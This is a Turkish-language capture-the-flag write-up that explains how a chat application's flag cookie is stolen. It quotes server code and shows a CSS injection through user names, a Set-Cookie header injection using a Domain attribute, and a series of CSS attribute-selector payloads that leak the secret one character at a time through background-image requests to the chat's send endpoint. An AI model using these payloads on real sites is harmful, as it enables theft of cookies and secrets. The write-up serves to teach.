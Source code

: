 
```js
 display(`Successfully changed secret to <span data-secret="${esc(cookie('flag'))}">*****</span>`
```
**/secret** ile **flag**'i değiştirdiğimiz zaman **flag** değeri **data-secret** attribute'una değişen hali yazılıyormuş.

![nou](cat-chat3.png)

Bunuda köşeye yazalım

```js
display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
```
**span[data-name^=${esc(data.name)}]** temizinden bir **CSS injection**

Deneme senaryosu
* kullanıcı ismini diye değiştirsin **nendo ] {background:url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=zzzzz%20you%20xxxx);}**
* diğer kullanıcı report etsin
* kullanıcı **dog** yazsın

![yrmm](cat-chat4.png)

Denememiz başarı oldu

Flag değerini **data-secret** attribute'una değişen hali yazdığını hatırlayalım.

**flag**'i değiştirmeden **data-secret** değerine yazdırmamız gerekiyor. 

**server.js**'e tekrar dönüp bakalım

```js
case '/secret':
if (!(arg = msg.match(/\/secret (.+)/))) break;
res.setHeader('Set-Cookie', 'flag=' + arg[1] '; Path=/; Max-Age=31536000');
response = {type: 'secret'};
```

**Header** set ederken girdi kontrolü yapmıyor. Başka domaine cookie'yi set edebiliriz.

```
/secret yeniSecret; Domain=x
```
Dediğimizi var sayarsak. olmayan bir domaine set edecek bundan dolayi cookie değişmeyecek.

![nou](cat-chat5.png)

Şimdi sıra **data-secret** değerini okumakta. 

bknz. [**CSS** ile veri çalmak](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)


her karakteri backroud resmi seklinde mesaj yollamasını sağlayacağız. [**CSS Selector** ](https://www.w3schools.com/cssref/css_selectors.asp) ile durmadan ilk karakteri kontrol etmemiz gerekiyor

```css
/name 4d4] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=/secret dummy; Domain=d2gn834g5z45m9h14fkk5rbh);
}

span[data-secret^=a] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=a);
}
...

span[data-secret^=z] {
    background: url(/room/fa5c99a4-1bde-4998-a289-a0f424ef2e0f/send?name=admin&msg=z);
}
```